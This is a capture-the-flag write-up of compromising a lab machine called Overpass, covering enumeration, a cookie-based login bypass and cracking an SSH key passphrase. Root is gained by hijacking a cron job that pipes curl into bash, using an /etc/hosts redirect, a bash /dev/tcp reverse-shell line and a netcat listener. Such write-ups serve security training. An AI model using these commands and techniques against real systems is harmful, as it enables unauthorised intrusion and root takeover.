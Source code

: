 # Overpass

##### Written: 21/05/2021

#### IP address: 10.10.138.135

First I ran a **nmap scan** to enumerate the services that are running on the target machine. The command used is:

```bash
sudo nmap -sC -sV -vv -oN nmap_initial 10.10.138.135
```

 **Results:**

<img style="float: left;" src="screenshots/screenshot1.png">

From the results, we can see that there are two open ports on the machine: **ssh** and **http**.

Navigating to the HTTP webserver, I can see the following page:

<img style="float: left;" src="screenshots/screenshot2.png">

Before carrying out a happy-path enumeration, I shall use **Gobuster** to see if I can enumerate any hidden directories. The command used is as such:

```bash
gobuster dir -u http://10.10.138.135/ -x php,js,txt -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Note that I made sure to check for common extensions such as **.php** in my directory enumeration.

With Gobuster up and running, I can then begin to explore the page.

The first thing I did was to check the source code of the home page. Doing so, I noticed an interesting comment that was left behind by one of the web developers:

<img style="float: left;" src="screenshots/screenshot3.png">

This seems to imply that their 'military grade cryptography' is actually one that was used by Romans...Furthermore, it doesn't seem to be very secure by the looks of it.

Could it be the **Caesar Cipher**? I will keep this in mind for now!



Next, on the 'Downloads' page, there are some files that we can download. Interestingly, they actually provide the **source code** for their password manager! I made sure to download it, as well as the **Build Script** and the **Precompiled Linux Binary**.

<img style="float: left;" src="screenshots/screenshot4.png">

Before looking at those files, let me check on the results of Gobuster:

<img style="float: left;" src="screenshots/screenshot5.png">

Nice, Gobuster managed to find an **admin login page**:

<img style="float: left;" src="screenshots/screenshot6.png">

I tried some basic SQL injections but they did not work. However, I realised that the login functionality was actually exposed in the **login.js** file that was enumerated! 

<img style="float: left;" src="screenshots/screenshot7.png">

Looking more closely at the **login()** function, it seems that the credentials that are inputted at the login screen are sent in a POST request to an endpoint **'/api/login'**. The response is then received and the data inside is stored in a variable **statusOrCookie**. There is then a check to verify whether the user is authenticated or not. However, looking at the **else** statement which authenticates the user, if we simply create a **SessionToken** cookie and set any random value,  we will be redirected to the **/admin** page! 

Let's test this out in the developer tools > Storage. In there, I created a cookie called SessionToken and assigned a value to it.

<img style="float: left;" src="screenshots/screenshot8.png">

Upon refreshing the page, I have gained access into the administrator panel!

<img style="float: left;" src="screenshots/screenshot9.png">

We have an RSA private key, which will probably be used to log into the ssh server that is also running on the machine. The username that uses this key could also be **James**, as he is mentioned explicitly in the message.

Let's copy this private key and try to ssh into the machine.

<img style="float: left;" src="screenshots/screenshot10.png">

Unfortunately we need to find out the **passphrase** for the RSA key. We can try a dictionary attack using **John the Ripper**, which is a password cracking tool. First, we need to convert the RSA key into a hash that can be cracked by JTR. To do so, we use an auxiliary tool called **ssh2john**. This can be done with the following command:

```bash
python /usr/share/john/ssh2john.py key_rsa > key_rsa.hash 
```

*Note that python3 does not execute ssh2john properly!*

Now, we can use JTR with the rockyou.txt wordlist and try to crack the passphrase:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt key_rsa.hash
```

**Results**

<img style="float: left;" src="screenshots/screenshot11.png">

Nice! James's private key passphrase is **james13**. Now we can log into the ssh server!

<img style="float: left;" src="screenshots/screenshot12.png">

#### With that, we can obtain the user flag from user.txt!

---

Next, we have to a way to escalate our privileges. 

First, I checked out the **todo.txt** file located in the home directory of James.

<img style="float: left;" src="screenshots/screenshot13.png">

Nice, looks like James's password is stored in the password manager that he implemented. I used the **find** command to located the overpass binary on the target machine.

```bash
find / -name overpass 2>/dev/null
```

The binary was found in **/usr/bin/overpass**

I executed the binary and managed to obtain James's password by retrieving all of the saved passwords:

<img style="float: left;" src="screenshots/screenshot14.png">

James password is **saydrawnlyingpicture**

Next, I'll try and see what **sudo privileges** James has on this machine.

 <img style="float: left;" src="screenshots/screenshot15.png">



Uh oh, looks like James does not have any sudo privileges at all... I will have to try another path of privilege escalation.

To automate the process, I'll be using **linpeas**, which is a privilege escalation automation script. After running the script, linpeas managed to automate a high potential PE vector!

<img style="float: left;" src="screenshots/screenshot16.png">

The *** * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash** refers to a **cronjob**, which generally has the following format:

**eg**

<img style="float: left;" src="screenshots/screenshot17.png">

Essentially, the ***** symbols dictate the frequency of the cronjob. If the user to execute the command/binary is to be set, then their name will be placed right after the symbols. Then, the command to run during each interval will be placed after that. In the case of the example above, the **rm /home/someuser/tmp/*** command will run **every minute** (as shown by 5 * symbols)



How about the cronjob that was found by linpeas?

<img style="float: left;" src="screenshots/screenshot18.png">

Hence, this cronjob curls a **buildscript.sh** file from **overpass.thm/downloads/src**  every minute and executes it as it pipes it over to bash. The important thing to note is that this command is **executed as root**! We can exploit this vulnerability by creating our own bashscript.sh which sets up a **reverse shell** that connects back to our host machine. Since our buildscript.sh is piped over to bash and executed as root, the reverse shell that we obtain will be root as well.

Let's set this up!

First, I needed to know what ip address **overpass.thm** points to. Looking at the **/etc/hosts** file on the target machine, we can actually see that overpass.thm points to localhost:

<img style="float: left;" src="screenshots/screenshot19.png">

I changed the IP address associated with this domain to my own IP address. Now, every time a request is made to overpass.thm, the target machine will check the /etc/hosts file and direct the request to my machine instead.



Next, I created a bash script called **buildscript.sh** with the following command inside:

```
bash -i >& /dev/tcp/xx.xx.xx.xx/8080 0>&1
```

This is a basic reverse shell command that makes a connection back to port 8080 of my local host.

Next, I placed this script inside a **/downloads/src** directory within my machine. I then started up a simple http server on **port 80** using python.

Finally, I also set up a netcat listener on port 8080 using the command:

```bash
nc -lvnp 8080
```



Hence, once a minute passes, the target machine will curl my created **buildscript.sh** and execute it as root, setting up a reverse shell which my netcat listener is currently listening out for.

<img style="float: left;" src="screenshots/screenshot20.png">

After a minute passed, we can see that my buildscript.sh was indeed curl'ed by the target machine.

<img style="float: left;" src="screenshots/screenshot21.png">

And with that, I have gained access to the target machine as **root**!

#### I can then obtain the root flag from root.txt


